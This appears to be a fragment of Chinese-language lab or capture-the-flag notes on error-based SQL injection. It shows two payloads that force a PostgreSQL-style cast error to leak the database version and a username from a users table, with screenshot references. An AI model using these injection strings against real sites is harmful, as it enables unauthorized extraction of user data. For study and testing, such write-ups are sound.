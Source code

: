 ### 报错注入

输入单引号，页面直接回显数据库报错信息

![image-20250502165044636](./img/image-20250502165044636.png)

使用cast，强制类型转换

```
' and 1=cast(version() as int)--
```

![image-20250502170553770](./img/image-20250502170553770.png)

账号

```
' and 1=cast((select username from users limit 1) as int)--
```

![image-20250502170317748](./img/image-20250502170317748.png)
